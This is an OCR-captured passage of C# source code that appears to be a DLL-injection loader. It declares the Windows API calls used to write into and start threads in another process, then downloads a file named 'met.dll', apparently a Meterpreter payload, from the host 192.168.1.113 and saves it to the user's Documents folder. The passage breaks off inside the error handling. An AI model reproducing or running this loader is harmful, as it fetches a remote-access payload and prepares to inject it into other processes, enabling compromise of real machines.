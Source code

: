 ```csharp
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);


        [DllImport("kernel32.dll")]

        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);


        [DllImport("kernel32.dll")]

        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]

        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]

        public static extern IntPtr GetModuleHandle(string lpModuleName); 

        static readonly HttpClient client = new HttpClient();

        static async Task Main()

        {

            String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);

            String dllName = dir + "\\met.dll";

            try

            {

                HttpResponseMessage response = await client.GetAsync("http://192.168.1.113/met.dll");

                if (response.IsSuccessStatusCode)

                {

                    using (var fs = new FileStream(dllName, FileMode.Create, FileAccess.Write, FileShare.None))

                    {

                        await response.Content.CopyToAsync(fs);

                    }

                }

            }

            catch (HttpRequestException e)

            {
                Console.WriteLine("Exception Caught!");
                Console.WriteLine($"Message: {e.Message}");
```